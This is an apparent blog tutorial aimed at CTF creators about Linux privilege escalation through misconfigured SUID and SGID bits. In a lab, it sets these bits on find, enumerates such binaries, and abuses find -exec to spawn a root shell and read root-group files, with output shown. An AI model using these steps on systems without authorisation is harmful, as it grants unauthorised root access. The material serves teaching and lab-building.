 ```yaml
---
title: Linux Privilege Escalation - SUID/SGID for CTF Creators
draft: false
author: "pwnlog"
authorLink: ""
description: ""
license: ""
images: []
date: 2021-12-28 11:33:00 +0800
categories: [Linux Privilege Escalation]
tags: [privilege escalation, shared object injection, suid, sgid, gtfobins, defend]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: false
rssFullText: false

code:
  copy: true
  maxShownLines: -1
  # ...
math:
  enable: true
  # ...
mapbox:
  accessToken: ""
  # ...
share:
  enable: true
  # ...
comment:
  enable: true
  # ...
library:
  css:
    # someCSS = "some.css"
    # located in "assets/"
    # Or
    # someCSS = "https://cdn.example.com/some.css"
  js:
    # someJS = "some.js"
    # located in "assets/"
    # Or
    # someJS = "https://cdn.example.com/some.js"
seo:
  images: []
  # ...

summary: "ID or GID as 0? (<_<)"
---
```


# SUID/SGID

A Set User ID (SUID) can be misconfigured to elevate privileges. Similarly, a Set Group ID (SGID) could have incorrect permissions in place.

### Set UID (SUID)
A file with the SUID bit set will always execute with the privileges of the file's owner, regardless of the user executing the command. This means that if a file owned by the root user has the SUID bit set, it will execute with root privileges, potentially leading to privilege escalation if misconfigured.

### Set GID (SGID)
- **On a File**: If the SGID bit is set on a file, it allows the file to be executed with the privileges of the group that owns the file.
- **On a Directory**: If the SGID bit is set on a directory, any files created within that directory will inherit the group ownership of the directory, rather than the primary group of the user who created the file.

# Privilege Escalation via SUID

Let's set a SUID bit to the `find` command, to do that we need to locate the `find` binary:

```shell
which find
```

Once we found the absolute path of the `find` binary, add a SUID bit to it:

```shell
sudo chmod u+s /usr/bin/find
```

Then by using the following command, we can enumerate all the binaries and scripts that have the SUID permission set, this is known as the **Symbolic Method** because it uses symbols.

```shell
find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null | grep find | xargs ls -l
```

Alternatively, we could use the **Octal/Numeric Method**, which uses octal values:

```shell
find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null | grep find | xargs ls -l
```

Now we know that the SUID bit is enabled for the `find` command which means that we can execute any command as the root user using the `find` command since the Super User ID (SUID) is 0 (root). Try the following command, which tries to find anything in the current working directory with the command (`find .`) then it uses the `-exec` parameter which handles the `id` command, then we have a `\` to escape the semicolon character (`;`) because the shell will interpret the semicolon character if it's not escaped:

```shell
find . -exec "id" \;
```

This means that we can execute any command as root, so we could, for example, spawn a bash shell as root:

```shell
user@pwn:~$ /usr/bin/find . -exec /bin/bash -p \; -quit
bash-5.0# id
uid=1000 (user) gid=1000 (user) euid=0(root) groups=1000 (user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare)
bash-5.0# whoami
root
bash-5.0# 
```

For more SUID binary shell escapes we can search on [GTFOBins](https://gtfobins.github.io/#+suid) with the SUID tag, as we can see, `GTFOBins` has a lot of SUID binary commands that we can use to escalate privileges. This repository is a cheat sheet of binaries. On this site, we can find ways to escalate privileges using SUID bit sets and more.

# Privilege Escalation via SGID

Let's add an `SGID` bit to the `/usr/bin/find` binary:

```shell
sudo chmod u-s /usr/bin/find && sudo chmod g+s /usr/bin/find
```

Then by using the following command, we can enumerate all the binaries and scripts having `SGID` permission. We can find `SGID` binaries using the Symbolic method:

```shell
find / -perm -g=s 2>/dev/null
find / -perm -g=s 2>/dev/null | grep find | xargs ls -l
```

Alternatively, we can use the Octal/Numeric method, which uses octal values:

```shell
find / -perm -2000 2>/dev/null
find / -perm -2000 2>/dev/null | grep find | xargs ls -l
```

Now we know that the `SGID` bit is enabled by using the `find` command which means that we can execute any command as the root user using the `find` command since the Super Group ID (SGID) is 0 (root). Try the following command, which tries to find anything in the current working directory with the command (`find .`) then it uses the `-exec` parameter which handles the `id` command, then we have a `\` to escape the semicolon character (`;`) because the shell will interpret the semicolon character if it's not escaped, lastly we pipe this output and filter the `gid` string or text with the `grep` command:

```shell
user@pwn:~$  find . -exec "id" \; | grep egid
uid=1000 (user) gid=1000 (user) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000 (user)
```

This allows us to read files that are readable by the root group, we can test this by creating a file as root:

```shell
sudo vim test
```

Write any message that we want:

```txt
This was created by root and only root can read it.
```

Change the permissions for other users and groups:

```shell
sudo chmod o-r test
```

Now try to read the file as `others`:

```shell
cat test
```

Since the `find` binary has an SGID bit set we can try to read some files on the system that belong to the root group.

```shell
user@pwn:~$ /usr/bin/find . -exec cat test \; -quit
This was created by root and only root can read it.
```